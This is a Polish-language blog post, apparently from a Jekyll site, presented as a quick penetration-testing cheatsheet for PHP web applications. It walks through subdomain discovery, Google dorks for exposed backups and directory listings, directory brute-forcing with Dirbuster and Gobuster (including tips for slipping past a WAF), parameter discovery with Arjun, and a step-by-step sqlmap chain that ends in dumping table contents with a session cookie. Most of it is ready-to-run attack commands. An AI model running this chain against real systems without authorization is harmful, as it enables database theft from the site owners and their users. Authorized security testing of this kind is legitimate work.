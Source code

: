```yaml
---
layout: post
title: SQL-injection - quick and dirty way
subtitle: Testowanie bezpieczeństwa aplikacji webowej napisanej w PHP
#gh-repo: daattali/beautiful-jekyll
#gh-badge: [star, fork, follow]
tags: [PHP, pentesting, security, web app pentesting, web aplication pentesting]
comments: true
---
```



Szybki #pwn-ing aplikacji webowej.
Artykuł ten może służyć jako cheatsheet do testów penetracyjnych aplikacji webowej napisanej w języku PHP. Skupiony jest głównie na poszukiwaniu podatności typu SQL-injection z wykorzystaniem gotowych narzędzi, ale niektóre jego elementy przy delikatnej modyfikacji mogą znaleźć zastosowanie w innych przypadkach. Na chwilę obecną nie zamierzam również dokładnie opisywać działania wszystkich użytych narzędzi, być może w przyszłości artykuł zostanie rozbity na mniejsze, bardziej szczegółowe części. Tymczasem, przejdźmy do sedna.

Załóżmy że celem naszych testów będzie domena example.com

## Zbieranie informacji o subdomenach:


### https://dnsdumpster.com

Podajemy nazwę domeny w celu wyszukania rekordów DNS. Zapisujemy zwrócone Host Records (A) które będą nam potrzebne do dalszej analizy.

### https://crt.sh

Strona crt.sh pozwala wyszukać zarejestrowane certyfikaty dla danej domeny. Przy użyciu wildcard-a możemy także wyszukać subdomeny.

%.example.com


### dnsenum -
Link: https://github.com/fwaeytens/dnsenum

```
dnsenum example.com  -f /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --threads 50
```  

### Google dorks:

Przy pomocy wyszukiwarki google możemy znaleźć wiele informacji przydatnych podczas pentestów, przykładowo:

__Pliki PHP__

```
site:example.com inurl:php
```

__parametry HTTP__

```
inurl:example.com/index.php
```

Jeżeli powyższy dork zwraca dużą ilosć wyników możemy go ogarniczyć poprzez usunięcie z wyników niechcianych ciągów znaków. 
```
inurl:example.com/index.php -id
```
Pozwoli nam to na łatwiejsze odnalezienie pozostałych parametrów HTTP.


__Foldery z włączonym listowaniem plików__

```
site:example.com title:Index of

site:example.com Parent Directory
```

__Kopie bezpieczeństwa__

```
site:example.com backup
```



## Brutforce contentu strony:  


### Dirbuster - korzystamy z GUI
Preinstalowany w dystrybucji Kali Linux
https://tools.kali.org/web-applications/dirbuster

Dirbuster pozwoli nam na znalezienie zamieszczonych na serwerze www folderów i plików. Najbardziej interesują nas te z rozszerzeniem *.php Warto jednak przejrzeć wszystkie znaleziska. Podczas przeprowadzanych przeze mnie testów bezpieczeństwa zdarzyły się sytuacje gdzie folder odnaleziony pod adresem http://example.com/backup zawierał backup bazy danych lub kodu aplikacji. Często możemy się również natknąć podatność typu Full Path Disclosure.

target url: https://example.com 
Jako target możemy również wybrać wszystkie subdomeny znalezione poprzez opisane wcześniej metody.
Słownik - /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
zaznaczamy checkboxy - Brute Force Dirs, Be Recursive, Brute Force 
Files File extension: php

Czasem zdarza się że WAF/IDS/IPS nie pozwoli nam na jednoczesny bruteforce plików i katalogów, w takiej sytuacji możemy spróbować przeprowadzić dwa oddzielne testy.
W ustawieniach narzędzia warto również zmienić domyślny nagłówek Http User Agent. W tym celu wybieramy Options > Advanced Options > Http Options

### Gobuster

Podobnie jak Dirbuster pozwala nam bruteforce zawartości serwera www. Nie posiada on jednak GUI


Link: https://github.com/OJ/gobuster

```
gobuster dir -u https://example.com/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e -t 50 -x php
```


### Arjun
Link: https://github.com/s0md3v/Arjun

Arjun pomaga nam dowiedzieć się jakie parametry HTTP mogą być przekazywane do aplikacji webowej. Załóżmy sytuację w której za pomocą Google dorks znaleźliśmy adres https://example.com/index.php. Nie znając zawartości pliku index.php nie wiemy jakie parametry może przyjmować. 

```
python3 arjun.py -u https://example.com/index.php
```

Znalezione w ten sposób parametry można później wykorzystać przy szukaniu podatności typu XSS lub SQL-injection.



## Do tej pory powinniśmy zebrać informacje takie jak:


### Subdomeny:

subdomain1.example.com
subdomain2.example.com
(...).example.com

### Pliki php umieszczone na serwerach www:

http://example.com/index.php
https://domain2.example.com/posts.php

### Parametry HTTP przekazywane do aplikacji webowej.

http://example.com/index.php?id=2
https://domain2.example.com/posts.php?name=test

Do wyszukania podatności SQL-i wykorzystamy narzędzie 

### sqlmap
https://github.com/sqlmapproject/sqlmap


```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --dbs --batch
```

Jeżeli testujemy aplikację w kontekscie zalogowanego użytkownika  do komendy należy dodać jego ciasteczka.

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --dbs --batch --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Przy znalezionej podatności opcja --dbs pozwoli nam pobrać nazwy baz danych. Listujemy tabele wybranej bazy danych poprzez opcję --tables
 
```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH --tables --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Następnie za pomocą opcji --columns wyświetlamy nazwy kolumn.

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH -T NAZWATABELI --columns --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Znamy już nazwy tabel oraz zawartych w nich kolumn, aby pobrać ich zawartość wykonujemy polecenie:

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH -T NAZWATABELI -C NAZWAKOLUMNY1,NAZWAKOLUMNY2 --dump --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```


